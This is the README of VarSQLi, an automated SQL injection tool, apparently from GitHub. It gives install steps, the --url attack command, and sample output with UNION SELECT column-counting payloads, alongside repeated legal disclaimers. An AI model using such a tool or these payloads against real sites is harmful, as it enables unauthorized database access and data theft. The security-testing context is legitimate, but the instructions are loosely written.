 # Variable-SQL-Injection
> _admin_ : [Twitter](https://twitter.com/Anonym0us_VNPC)
> _Website_ : [Ghost Man](https://ghostmanews.blogspot.com)

VarSQLi allows users to search for and exploit SQL injection vulnerabilities automatically. The tool employs techniques such as input string testing, SQL syntax analysis, and SQL statement testing to determine if a system is susceptible to SQL injection.
<img src="https://raw.githubusercontent.com/Phamchie/varsqli/main/Screenshot_2023-08-02-14-41-26-65.jpg">

> However, using VarSQLi or any other database exploitation tool to attack someone else's database is illegal and can have serious consequences. Illegally accessing someone else's database may violate information security regulations and ethical standards in information technology.

Using VarSQLi or any unauthorized database exploitation tool can lead to imprisonment and criminal liability. We must adhere to security regulations and policies, respect privacy rights, and refrain from compromising others' systems and data.

> Instead of relying on database exploitation tools, we should focus on enhancing our knowledge of security, understanding common security vulnerabilities, and implementing security measures to protect our systems and data. Collaborating with security experts and complying with legal regulations will ensure safety and ethical use of information technology

# setup x install tool
To set up VarSQLi, follow these steps:

1. Clone the VarSQLi repository from GitHub using the following command:
2. `git clone https://github.com/Phamchie/varsqli`
3. Navigate to the VarSQLi directory:
4. `cd varsql`
5. Install the required dependencies by running the setup script:
6. `python3 setup.py`
7. `python3 varsqli.py --help`

Once the setup is complete, you can start using VarSQLi to identify and exploit SQL injection vulnerabilities. However, always ensure that you have proper authorization and adhere to legal and ethical guidelines when conducting security assessments.

# How To Injection - Exploit ?
1. You can see that in the `--help` section, there is only one mode, `--url` to update the url to attack
```
              ___
 _____         H  _____     _ _  {1.1.5}
|  |  |___ ___[,]|   __|___| |_|
|  |  | .'|  _[(]|__   | . | | | {Pham Chien}
 \___/|__,|_| [)]|_____|_  |_|_|
               V         |_|  ghostmanews.blogspot.com


[+] Remember, using VarSQLi or any similar tool for illegal activities can result in severe legal consequences, including imprisonment. It is crucial to prioritize ethical hacking practices, collaborate with security professionals, and comply with relevant laws and regulations to ensure responsible and lawful use of such tools.

usage: varsqli.py [-h] [--url URL]

VarSQLi - Auto SQL Injection tools

options:
  -h, --help  show this help message and exit
  --url URL   URL Target (ex :
              https://test.com/yourpath_vulnsqli.php?id=1)
```
3. To attack the target , you write the command :
4. `python3 varsqli.py --url < url vulerable >`
5. the result will be
```
[INFO] Testing connect to target url..
[INFO] Testing IF the target url content is stable
[INFO] Target is the content stable..
[INFO] Testing 'Generic atline queries'..
[INFO] Testing 'UNION SELECT NUMBER COUNT COLUMNS (MySQL Select).'
[INFO] Testing Payload '+AND+0+UNION+SELECT+1,2--+-'
[INFO] Total Response Content HTML stable : 200 OK
[INFO] Testing Payload '+AND+0+UNION+SELECT+1,2,3--+-'
```
<img src="https://raw.githubusercontent.com/Phamchie/varsqli/main/.github/workflows/Screenshot_2023-08-02-14-49-50-36.jpg">

1. it is starting to attack, and after a while exploiting with UNION SELECT payloads to get the column number of the website, it will announce like this
2. it is the number of columns, payload , target, user , database and the target's MySQL version
<img src="https://github.com/Phamchie/varsqli/blob/main/.github/workflows/Screenshot_2023-08-02-14-50-17-53.jpg?raw=true">

1. like last version, we don't have the feature to print database name and MySQL user, but i guarantee that the latest update version of too right now will have that feature 😃..
2. :)
3. and here is the target database of tables and columns that VarSQLI has exploited
<img src="https://raw.githubusercontent.com/Phamchie/varsqli/main/.github/workflows/Screenshot_2023-08-02-14-50-35-49.jpg">

1. so we've come to the end, so what's the ending?
# Ending ?
A tip and note to use :
1. Can you see how dangerous the SQL injection vulnerability is, here is a piece of advice for you, this tool is only for the nature, is to show the database name, and will never provide  dump database for users only, to ensure the security of network security
> Remember, using VarSQLi or any similar tool for illegal activities can result in severe legal consequences, including imprisonment. It is crucial to prioritize ethical hacking practices, collaborate with security professionals, and comply with relevant laws and regulations to ensure responsible and lawful use of such tools.
